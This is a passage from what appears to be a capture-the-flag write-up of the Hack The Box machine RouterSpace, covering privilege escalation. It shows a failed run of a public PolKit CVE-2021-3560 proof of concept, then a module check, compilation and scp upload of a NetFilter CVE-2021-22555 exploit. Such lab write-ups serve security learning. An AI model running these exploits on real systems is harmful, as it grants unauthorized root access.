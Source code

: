 So this is a false positive.

#### PolKit Vuln

In [Paper](/2022/06/18/htb-paper.html#polkit-cve), CVE-2021-3560 was the intended solution. I’ll use the [same POC](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) here, but it fails:

```

paul@routerspace:/dev/shm$ bash cve-2021-3560.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as ubuntu
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[x] ERROR: Accounts service and Gnome-Control-Center NOT found!!
[!]  Aborting Execution!

```

That POC works by adding a new user in the `sudo` group, and it’s failing because it uses the `Accountsservice` and `Gnome-Control-Center` to do that. Because that is core to [how the exploit functions](https://www.hackingarticles.in/linux-privilege-escalation-polkit-cve-2021-3560/) , there’s not much I can do here.

#### NetFilter

The vulnerability in NetFilter, CVE-2021-22555, says it requires the `ip_tables` kernel module to be loaded. That is actually present here:

```

paul@routerspace:/dev/shm$ lsmod | grep ip_tables
ip_tables              32768  9 iptable_filter
x_tables               40960  11 ip6table_filter,xt_conntrack,iptable_filter,xt_LOG,xt_tcpudp,xt_addrtype,ip6_tables,ipt_REJECT,ip_tables,xt_limit,xt_NFQUEUE

```

I’ll download the POC from the link in the LinPeas output, and compile it and `scp` it to RouterSpace:

```

oxdf@hacky$ gcc -m32 -static -o cve-2021-22555 cve-2021-22555.c oxdf@hacky$ scp -i ~/keys/ed25519_gen cve-2021-22555 paul@routerspace.htb:/dev/shm/
cve-2021-22555                  100%  706KB 879.9KB/s   00:00

```
